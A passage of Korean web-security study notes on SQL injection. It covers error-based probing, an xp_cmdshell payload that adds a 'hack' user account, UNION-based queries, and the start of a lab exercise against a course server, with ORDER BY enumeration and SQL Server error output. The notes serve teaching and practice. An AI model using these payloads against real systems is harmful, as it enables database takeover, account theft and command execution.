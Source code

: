 
   

2. **오류를 유발하는 입력**  => 추가 공격을 위한 정보 수입

   ​	=> search.jsp?text=abcd’

   ​	=> `select * from data where keyword=’abcd’` 

   ​	=> 홑따움표의 개수가 일치하지 않아서 오류가 발생 -> 오류

   ​	=> 메세지에 대한 처리가 불완전하여 시스템 내부 정보가 사용자 화면에 출력될 수 있음.

   

3. **Stored Procedure를 호출하는 입력** => DB 서버의 제어권 탈취에 사용될 수 있다.

   ​	=> search.jsp?text=abcd'; exec xp_cmdshell 'net user hack hack /add'; --

   ​	=> `select * from data where keyword= 'abcd'; exec xp_cmdshell' net user hack hack /add'; —'`

4.  UNION 구문을 이용한 호출 => 

   ​	기존 쿼리

   ​	=> `select * from address where dong = '하대동'`

   ​	공격자가 원하는 쿼리

   ​	=> `select * from address where dong='하대동' UNION select * from user --`

   ***실습***

   - 문제 : LAB 우편번호 조회 서비스를 이용해서 해당 사이트( [http://70.12.50.56:9090](http://70.12.50.56:9090/zipcode.asp))의 계정을 탈취해서 로그인해 보세요.

     - **\#1** **우편번호 조회 서비스를 통해서 반환하는 컬럼의 갯수를 확인**

       ​	->`select * from address where dong='a'order by 1 --`  //1번째 컬럼을 기준으로 정렬하시오.

       ​	=> …/zip_code.asp?dong=a
       ​	

       ​	->`select * from address where dong=a' order by 8 —` //8번째 컬럼을 기준으로 정렬하시오 했는데

       ​	->에러메세지 출력

       ```
       Microsoft OLE DB Provider for SQL Server 오류 '80040e14'
       ORDER BY 위치 번호 8이(가) SELECT 목록의 항목 번호 범위를 벗어났습니다.
       /zip_search.asp, 줄 21
       
       → 우편번호 조회 서비스를 위한 쿼리는 7개의 컬럼을 반환한다.
       ⇒ Error-Based SQL Injection
       ```

     -  **\#2 UNION 구문을 이용해서 숫자로 구성된 7개의 값을 출력**

       ​	-> `select * from address where dong = 'a' UNION select 1,2,3,4,5,6,7 --' `

       ​	⇒ .../zip_code.asp?dong=a' UNION select 1,2,3,4,5,6,7 --

       ​	->에러메세지 출력

       ```
       Microsoft OLE DB Provider for SQL Server 오류 '80040e07'
       varchar 값 '110-753'을(를) 데이터 형식 int(으)로 변환하지 못했습니다.
       /zip_search.asp, 줄 21
       ```
